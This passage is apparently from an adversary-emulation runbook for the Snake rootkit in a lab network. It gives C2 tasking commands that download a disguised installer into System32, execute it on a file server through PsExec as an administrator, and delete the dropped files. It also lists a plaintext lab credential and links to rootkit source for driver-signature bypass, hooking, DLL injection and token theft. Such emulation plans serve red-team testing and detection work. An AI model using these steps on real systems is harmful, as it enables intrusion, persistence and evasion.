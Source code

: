 * Wait 1 minute and then run the following command to download the snake installer:
```bash
./evalsC2client.py --set-task 534b40585d514b554844 '{"type": 4, "file": "installer_v2.exe", "dest":"C:\\Windows\\System32\\cmu_svc_v2.exe"}'
```

* Wait 1 minute before running the following command to execute PsExec as `EgleAdmin`, which will run the Snake installer on the file server `berzas (10.100.30.204)`:
```bash
./evalsC2client.py --set-task 534b40585d514b554844 '{"type": 3, "proc": "C:\\Windows\\System32\\file_svc_mgr.exe", "args":"\\\\berzas -accepteula -s -c C:\\Windows\\System32\\cmu_svc_v2.exe", "runas":"nk\\EgleAdmin"}'
```

:arrow_right: Go back to your RDP session to `Azuolas (10.100.40.103)` as `Egle`.

* Minimize the RDP window.

:arrow_right: RDP into `berzas` (`10.100.30.204`) as `EgleAdmin`:

| Username   | Password | 
| :--------: | :---------------: | 
| nk\EgleAdmin  | Producer1! |

* Close any spurious windows

* Open Edge and navigate to <https://www.google.com>. Perform a search on `File server configuration best practices`, but don't click on any results.

* Minimize the RDP window, keeping processes running.

:arrow_right: Check the Kali C2 server terminal window and verify that a new implant session is beaconing back to the C2 server. 

* Wait 1 minute before running the following command to remove files from `Azuolas (10.100.40.103)`:
```bash
./evalsC2client.py --set-task 534b40585d514b554844 '{"type": 1, "command": "del /Q C:\\Windows\\System32\\file_svc_mgr.exe C:\\Windows\\System32\\cmu_svc_v2.exe"}'
```

### :moyai: Source Code
* [Snake Installer](../../Resources/Snake/SnakeInstaller/README.md)
  * [Privilege Escalation](../../Resources/Snake/SnakeInstaller/src/privesc/privesc.cpp#L180)
  * [Disable DSE and Load Rootkit](../../Resources/Snake/SnakeInstaller/src/main.cpp#L63)
  * [Start Snake Rootkit Driver](../../Resources/Snake/SnakeInstaller/src/driver/driver.cpp#L111)
* [Snake Rootkit](../../Resources/Snake/README.md)
  * [Driver](../../Resources/Snake/SnakeDriver/SnakeDriver/driver.c#L76)
  * [Function Hooking](../../Resources/Snake/SnakeDriver/SnakeDriver/hooks.c#L31)
    * [Infinity Hook](../../Resources/Snake/SnakeDriver/libinfinityhook/README.md)
  * [Drop DLL](../../Resources/Snake/SnakeDriver/SnakeDriver/filesystem.cpp#L22)
  * [Trigger injection on network request](../../Resources/Snake/SnakeDriver/SnakeDriver/wfp.cpp#L276)
  * [Inject Usermodule DLL](../../Resources/Snake/SnakeDriver/SnakeDriver/inject.cpp#L30)
* [Snake Usermodule DLL](../../Resources/Snake/UserModule/README.md)
  * [Task download](../../Resources/Snake/UserModule/src/comms_http.cpp#L237)
  * [Task execution via cmd](../../Resources/Snake/UserModule/src/execute.cpp#L337)
  * [Generic process execution with optional token impersonation](../../Resources/Snake/UserModule/src/execute.cpp#L406)
  * [Payload download](../../Resources/Snake/UserModule/src/comms_http.cpp#L604)
  * [Token duplication](../../Resources/Snake/UserModule/src/execute_token.cpp#L284)
